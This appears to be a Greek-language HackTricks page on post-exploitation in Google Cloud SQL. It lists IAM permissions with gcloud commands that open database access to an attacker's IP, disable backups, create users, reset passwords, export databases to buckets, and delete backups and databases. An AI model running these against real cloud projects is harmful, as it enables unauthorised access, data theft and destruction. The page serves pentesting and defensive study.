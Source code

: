 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ κάνοντας υποβολή PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Cloud SQL

Για περισσότερες πληροφορίες σχετικά με το Cloud SQL, ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Για να συνδεθείτε στις βάσεις δεδομένων, απλώς χρειάζεστε πρόσβαση στη θύρα της βάσης δεδομένων και να γνωρίζετε το **όνομα χρήστη** και το **κωδικό πρόσβασης**, δεν υπάρχουν απαιτήσεις IAM. Έτσι, ένα εύκολο τρόπο για να αποκτήσετε πρόσβαση, υποθέτοντας ότι η βάση δεδομένων έχει μια δημόσια διεύθυνση IP, είναι να ενημερώσετε τα επιτρεπόμενα δίκτυα και **να επιτρέψετε στη δική σας διεύθυνση IP να έχει πρόσβαση**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Είναι επίσης δυνατόν να χρησιμοποιήσετε το **`--no-backup`** για να **διακόψετε τα αντίγραφα ασφαλείας** της βάσης δεδομένων.

Καθώς αυτές είναι οι απαιτήσεις, δεν είμαι εντελώς σίγουρος για ποιους λόγους χρησιμοποιούνται οι άδειες **`cloudsql.instances.connect`** και **`cloudsql.instances.login`**. Αν το γνωρίζετε, στείλτε ένα PR!

### `cloudsql.users.list`

Λάβετε μια **λίστα με όλους τους χρήστες** της βάσης δεδομένων:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Αυτή η άδεια επιτρέπει τη **δημιουργία ενός νέου χρήστη μέσα** στη βάση δεδομένων:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Αυτή η άδεια επιτρέπει την **ενημέρωση χρήστη μέσα** στη βάση δεδομένων. Για παράδειγμα, μπορείτε να αλλάξετε τον κωδικό πρόσβασής του: 

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Τα αντίγραφα ασφαλείας μπορεί να περιέχουν **παλιές ευαίσθητες πληροφορίες**, οπότε είναι ενδιαφέρον να τα ελέγξετε.\
**Επαναφέρετε ένα αντίγραφο ασφαλείας** μέσα σε μια βάση δεδομένων:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
### `cloudsql.backupRuns.delete`

Αυτή η άδεια επιτρέπει τη διαγραφή αντιγράφων ασφαλείας:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Εξαγωγή μιας βάσης δεδομένων** σε ένα Cloud Storage Bucket ώστε να μπορείτε να έχετε πρόσβαση σε αυτήν από εκεί:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Εισαγωγή μιας βάσης δεδομένων** (αντικατάσταση) από ένα Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Διαγραφή μιας βάσης δεδομένων από την περίπτωση βάσης δεδομένων:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Μάθε & εξάσκησε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθε & εξάσκησε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Συμμετέχετε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Κοινοποιήστε τεχνικές χάκινγκ υποβάλλοντας PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

